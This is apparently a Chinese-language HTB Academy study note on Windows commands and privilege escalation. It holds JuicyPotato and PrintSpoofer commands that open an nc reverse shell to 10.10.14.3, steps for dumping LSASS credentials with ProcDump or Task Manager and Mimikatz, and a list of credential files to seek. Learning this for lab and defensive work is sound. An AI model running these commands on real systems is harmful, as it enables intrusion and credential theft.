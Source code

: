 # HTBA对Windows知识的补全

# CMD

## 命令

**tree：**  
windows是可以使用tree的（发现新大陆），和linux用法一样，加上/F可以列出指定目录的所有文件和文件夹。

**mkdir:**  
创建目录和linux一样使用mkdir，使用方法和linux相同

**rd:**
删除文件夹，加上/s可以删除有内容的文件夹

**move:**
和linux的mv命令相同可以移动文件，使用方法：move FILE PATH\TO\FILE


# powershell




# 提权

## 基础

**接口、IP 地址、DNS 信息:**  
ipconfig /all

**ARP表：**
arp -a

**路由表：**
route print

**检查windows defender状态：**
```powershell
Get-MpComputerStatus
```

**列出applocker规则：**
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

**测试AppLocker策略**
```powershell
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

## windows用户权限

### SeImpersonate 和 SeAssignPrimaryToken

**JuicyPotato**

使用```whoami /priv```命令查看权限SeImpersonatePrivilege是否为enable，此权限可用于模拟特权帐户，例如 NT AUTHORITY\SYSTEM。JuicyPotato 可用于通过 DCOM/NTLM 反射滥用来利用 SeImpersonate 或 SeAssignPrimaryToken 权限。

```
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
其中 -l 是 COM 服务器侦听端口，-p 是要启动的程序 （cmd.exe），-a 是传递给 cmd.exe 的参数，-t 是 createprocess 调用
然后使用nc监听8443端口，拿到反向shell。


**PrintSpoofer**

JuicyPotato 不适用于 Windows Server 2019 和 Windows 10 build 1809 及更高版本，所以PrintSpoofer成了更好的选择。
使用命令
```
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
使用nc监听8443端口。


### SeDebugPrivilege


SeDebugPrivilege权限可以用来转储密码和提权：
密码转储的基本流程是使用Prodump转储lsass.exe进程里的密码，然后使用mimikatz处理，得到明文密码。


使用命令```whoami /priv```命令列出我们掌握的权限

可以使用 SysInternals 套件中的 ProcDump 来利用此权限并转储进程内存。一个很好的候选者是本地安全机构子系统服务 （LSASS） 进程，该进程在用户登录到系统后存储用户凭据。

注意：在“Mimikatz”中运行任何命令之前，最好键入“log”，这样所有命令输出都会将输出放入“.txt”文件。这在从内存中可能包含多组凭据的服务器转储凭据时特别有用。


**具有rdp访问权限时**
假设由于某种原因，我们无法在目标上加载工具，但具有 RDP 访问权限。在这种情况下，我们可以通过任务管理器对 LSASS 进程进行手动内存转储，方法是浏览到“详细信息”选项卡，选择 LSASS 进程，然后选择“创建转储文件”。将此文件下载回我们的攻击系统后，我们可以像上一个示例一样使用 Mimikatz 处理它。

### SeTakeOwnershipPrivilege

查看本用户的权限：
```
whoami /priv
```

检查文件并搜集更多信息：
```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

这部分命令用于获取指定路径下的文件或目录的信息：
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt'

select(Select-Object)筛选对象属性
fullname(绝对路径)
LastWriteTime(最后写入时间)
Attributes(文件的属性，如只读、隐藏等)

@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}：这是一个计算属性的哈希表，用于添加一个新的属性“Owner”。
Name="Owner"：指定新属性的名称为 "Owner"。
Expression={ (Get-Acl $_.FullName).Owner }：指定计算新属性值的表达式。
(Get-Acl $_.FullName)：获取文件的访问控制列表（ACL）。
.Owner：从 ACL 中提取文件的所有者。
```
 
**一些需要注意的文件**

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
我们还可能遇到 .kdbx KeePass 数据库文件、OneNote 笔记本、password.*、pass.*、creds.* 等文件、脚本、其他配置文件、虚拟硬盘文件以及我们可以提取敏感信息的目标文件提升我们的特权并扩大我们的访问范围。



